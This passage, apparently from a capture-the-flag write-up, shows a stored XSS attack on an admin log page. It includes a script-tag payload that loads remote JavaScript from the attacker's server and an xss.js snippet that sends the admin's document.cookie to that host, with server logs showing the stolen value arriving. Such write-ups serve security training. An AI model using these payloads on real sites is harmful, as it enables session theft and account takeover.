 #### Identify Admin XSS

I can load remote scripts as well, like with a username of
`<script src="http://10.10.14.6/xss.js"></script>`. On entering that and
then viewing the log, I see a connection at my webserver:



    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.14.6 - - [03/Nov/2021 08:44:20] code 404, message File not found
    10.10.14.6 - - [03/Nov/2021 08:44:20] "GET /xss.js HTTP/1.1" 404 -



A bit later, there's a connection from Fingerprint as well:



    10.10.11.127 - - [05/Dec/2021 08:44:51] code 404, message File not found
    10.10.11.127 - - [05/Dec/2021 08:44:51] "GET /xss.js HTTP/1.1" 404 -



It's worth noting that the logs are cleared periodically, so I may need
to resubmit.

#### Exfil Cookie

My first thought was to exfil the cookie of the admin. I created some
simple JavaScript in `xss.js`:



    var req = new XMLHttpRequest();
    req.open("GET", "http://10.10.14.6/?" + document.cookie, false);
    req.send();



When the admin next checked the page, I got a cookie back:



    10.10.11.127 - - [03/Nov/2021 08:48:51] "GET /xss.js HTTP/1.1" 200 -
    10.10.11.127 - - [03/Nov/2021 08:48:52] "GET /?user_id=49f5f0062780bed62dc06bf4a8d2dd9cb5c3fda50e19a5a840262c26c001bb0338550635d9fd36fef81113d9fbd15805193308e099ee214406b0a87c0b6587fb HTTP/1.1" 200 -



Unfortunately, this cookie in theory would only help me access the site
that I'm already accessing, and that I have the source for. In reality,
this cookie doesn't seem to work on the site either. Looking at the
cookie that was generated when I successfully logged in as admin, the
cookie that is set is called `session` and it's a flask cookie:



    HTTP/1.0 200 OK
    Content-Type: text.md; charset=utf-8
    Content-Length: 219
    Location: http://10.10.10.141/admin
    Vary: Cookie
    Set-Cookie: session=eyJ1c2VyX2lkIjoiYWRtaW4ifQ.YYUKiQ.ZEiAGV_kKNLV_tcVFa1ezMrMqbk; HttpOnly; Path=/
    Server: Werkzeug/1.0.1 Python/2.7.17
    Date: Fri, 05 Nov 2021 10:42:17 GMT
